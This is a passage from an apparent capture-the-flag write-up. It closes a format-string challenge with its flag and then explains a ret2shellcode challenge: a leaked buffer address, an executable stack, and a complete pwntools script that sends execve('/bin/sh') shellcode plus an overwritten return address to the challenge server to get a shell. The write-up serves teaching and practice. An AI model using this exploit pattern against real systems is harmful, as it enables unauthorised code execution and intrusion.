 Sure enough this gets us the flag.


![image](https://gist.github.com/user-attachments/assets/75aabf63-0ee7-479f-abd5-353392b5e0b3)

`ZUCTF{fmt_5tr1ng}`

### Ret2Shellcode

This challenge involved the binary leaking an address for and all you had to do was write shellcode into this buffer location to pop a shell. We can view this in ghidra where we see that `printf()` leaks the address for us by default.

![image](https://gist.github.com/user-attachments/assets/70eec53a-bca6-4ca0-86db-628d626e0193)

To confirm that the stack is executable we can use `checksec` to check for file securities.

![image](https://gist.github.com/user-attachments/assets/b16539be-e5b3-442d-974c-d1102415d301)


This means that the stack is executable and we can run shellcode on the stack. For this we are going to use [shellstorm](http://shell-storm.org/shellcode/files/shellcode-603.html) , which is a database for shellcodes performing different functions.

Now with this we can go on to craft our payload.

```python
from pwn import *

binary = context.binary = ELF("./chal", checksec=False)
#p = process()

p = remote("84.8.139.90", 9003)
p.recvuntil("Your buffer sits at: ")
leak = int(p.recvline(), 16)

log.info("Leak: %#x", leak)

sc = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

payload = sc
payload += b'a' * (88 - len(sc))
payload += p64(leak)


p.sendline(payload)

p.interactive()
```

Let us break down this solution at least. Now to start, we grab the address that has been leaked to us using `p.recvline()` . Then we can craft our shellcode as above. Next we need to find the value where we can overflow the buffer so that we can gain control of execution. We can use `pwndbg` for this.
![image](https://gist.github.com/user-attachments/assets/b9376611-bba8-4be9-9d32-f4858ec70a19)
